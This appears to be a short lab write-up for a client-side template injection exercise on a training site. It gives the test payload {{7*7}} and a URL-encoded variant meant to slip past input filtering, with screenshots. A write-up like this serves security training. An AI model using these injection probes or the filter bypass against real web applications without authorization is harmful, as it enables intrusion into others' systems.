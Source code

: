 # URL :- `https://hackxpert.com/labs/CSTI/10.php`

## Solution
![image](https://user-images.githubusercontent.com/60841283/151139512-42f0dc9f-5e76-474a-8165-04d434d30e64.png)

Payload :- 
```text
{{7*7}}
```

![image](https://user-images.githubusercontent.com/60841283/151139438-176f6b11-fdc0-4583-becd-3bd00199a01e.png)

Bypass via URL Encoding
```text
%7b%7b7*7}}
```

![image](https://user-images.githubusercontent.com/60841283/151139303-c248a5e3-966c-4227-96cd-3cad5df92c72.png)

